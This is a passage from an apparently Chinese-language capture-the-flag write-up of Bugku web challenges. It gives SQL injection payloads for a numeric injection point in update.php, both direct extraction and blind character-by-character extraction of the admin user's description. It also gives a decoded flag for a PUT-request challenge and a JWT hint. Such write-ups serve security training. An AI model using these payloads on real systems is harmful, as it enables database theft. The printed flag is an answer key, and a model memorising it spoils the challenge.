 update.php中age处存在数字型注入点,payload如下：

```sql
# 直接回显
(select group_concat(description) from (select description from users where username=0x61646d696e)x)
# 逐位爆破(注意csrf-token的处理)
0|conv(hex(substr((select description from (select * from users where username like 0x61646d696e)a),1,1)), 16, 10)
conv(hex(substr((select description from (select * from users where username regexp 0x61646d696e limit 0,1)a),1,1)), 16, 10)
```

![](/assets/images/move/1551948009156-5c838653-e51b-4fcf-9478-6f9c36dd9401.png)

## web9 PUT me message!

put me a message bugku then you can get the flag

![](/assets/images/move/1551947338584-12ce0c3b-56f5-44ac-8ee0-1dee87637fb9.png)

Base64.decode->flag{T7l8xs9fc1nct8NviPTbn3fG0dzX9V}.

## web10 在线日记本

hint:JWT你需要了解一哈.

![](/assets/images/move/1551948585023-a00d614d-957c-40e4-8339-14bbd7098a70.png)
